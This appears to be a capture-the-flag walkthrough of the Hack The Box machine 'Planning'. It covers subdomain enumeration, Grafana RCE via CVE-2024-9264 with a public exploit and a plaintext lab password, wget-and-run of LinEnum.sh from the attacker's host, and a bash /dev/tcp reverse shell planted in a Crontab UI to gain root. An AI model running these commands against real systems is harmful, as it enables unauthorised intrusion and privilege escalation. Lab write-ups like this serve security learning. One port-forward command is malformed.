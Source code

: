 # 🗂️Planning

## 🧠Summary
  > The target machine "Planning" exposes a misconfigured Grafana 11 instance on a subdomain, grafana.planning.htb, which is vulnerable to Remote Code Execution (RCE) via the SQL Expressions feature. This vulnerability, tracked as CVE-2024-9264, allows post-processing of query data using DuckDB, which fails to sanitize user-supplied SQL properly. By exploiting this flaw, we were able to gain remote command execution inside a Docker container. Further enumeration led to credential discovery and access to a Crontab UI interface hosted on port 8000. By injecting a reverse shell payload through the scheduler interface, we achieved privilege escalation and accessed the root flag.

## 🔎Step 1 (Nmap scan)
- Did a Nmap scan to determine the open ports in the machine
  ```bash
  nmap -sV -v planning.htb
  ```
- The result of the nmap scan is ![](./screenshots/nmap_scan.png)
- The ssh and http ports are open

## 🌐Step 2 (Web enumeration)
- Did web enumeration manual and used dirsearch but found nothing useful
  ![](./screenshots/dirsearch.png)
- As a result decided to find if any subdomain exist, used gobuster and a custom generated wordlist from chatgpt
  ```bash
  gobuster dns -d planning.htb -w /home/raihan/Documents/m_planning/wordlist.txt --no-error
  ```
  ![](./screenshots/gobuster.png)
- Here found that a subdomain grafana exist
- Entered the webpage grafana.planning.htb and found a login page and logged in using the given creds

## 📌Step 3 (Loop hole)
- Searched in web about grafana and found two important links leading to the successful pawning of this machine
- Link 1 (write up about grafana's vulnerablity) 👉 [https://grafana.com/blog/security_vulnerabity](https://grafana.com/blog/2024/10/17/grafana-security-release-critical-severity-fix-for-cve-2024-9264/)
- Link 2 (Exploit found for the CVE-2024-9264) 👉 [https://github.com/nollium/CVE-2024-9264](https://github.com/nollium/CVE-2024-9264)
- Downloaded the exploit code using git clone
  ```bash
  git clone https://github.com/nollium/CVE-2024-9264
  ```
- Executed the downloaded exploit and tryed to dump the /etc/passwd file and found out that the output shows that it is the root of docker
- So used LinEnum.sh to escape from the docker
- After hosting LinEnum in my machine used the command
  ```bash
  python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "wget http://<your-ip>:<port>/LinEnum.sh" http://grafana.planning.htb
  python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "chmod +x LinEnum.sh" http://grafana.planning.htb
  python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "./LinEnum.sh" http://grafana.planning.htb
  ```
- After execution got the creds username and password
  ![](./screenshots/creds.png)

## ⚓Step 4(Foothold)
- SSH into the machine using the obtained creds
  ```bash
  ssh enzo@planning.htb
  ```
- Gained the shell and obtained the user flag
- Checked if any binary misconfig or any non password executable binary exist but non
- Proceeded on checking each directory and found a crontab.db
- Cat the file and found a password
- Further checked if any additional proccess is happening using
  ```bash
  netstat -tulpn
  ```
- Found it is hosting a webpage in port 8000
  ```bash
  ssh 8000:localhosts:8000 enzo@planning.htb
  ```
- Found a webpage that hosts crontab
  [](./screenshots/crontab_web.png)
- Inserted a malicious code that connects to my machine using netcat to gain root shell
  ```bash
  /bin/bash -i >& /dev/tcp/<your ip>/<your port> 0>&1
  ```
- Gained the root shell and got the root flag 🚩
